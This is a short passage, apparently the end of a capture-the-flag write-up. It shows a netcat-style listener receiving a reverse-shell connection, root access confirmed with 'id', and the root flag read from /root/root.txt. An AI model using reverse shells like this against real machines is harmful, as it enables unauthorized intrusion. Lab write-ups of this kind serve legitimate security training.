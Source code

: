     listening on [any] 5555 ...
    connect to [10.0.0.27] from (UNKNOWN) [10.0.0.17] 43332
    # id
    uid=0(root) gid=0(root) grupos=0(root)

We have successfully gained a root shell on the remote machine. Now let's read the final flag and finish the CTF.

    # cat /root/root.txt

    W5bnxUKrVSHpvEpJ6mwFVgVH6
